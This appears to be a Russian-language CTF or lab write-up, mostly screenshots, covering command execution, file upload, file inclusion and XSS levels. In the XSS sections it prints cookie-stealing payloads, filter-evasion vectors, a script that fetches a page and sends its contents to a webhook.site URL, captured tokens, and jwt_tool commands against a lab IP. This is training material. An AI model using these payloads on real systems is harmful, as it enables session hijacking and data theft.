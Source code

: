 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3



 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)



  XSS: уровень 4
  
![image](https://github.com/user-attachments/assets/b975d289-b902-4242-a5c9-838c07e6d4a2)


![image](https://github.com/user-attachments/assets/813d410c-f4ba-4b5b-86bb-eb846e0188a7)


![image](https://github.com/user-attachments/assets/5ed73545-dc70-487e-8294-ae52728ba45e)






File Inclusion: уровень 3

![image](https://github.com/user-attachments/assets/93c358d5-c2eb-4e04-9464-872663714c45)

![image](https://github.com/user-attachments/assets/15697450-b352-452c-bab2-ef50d7decd20)


![image](https://github.com/user-attachments/assets/9ae24d63-7ca9-4ee4-81cb-f729427a1f77)
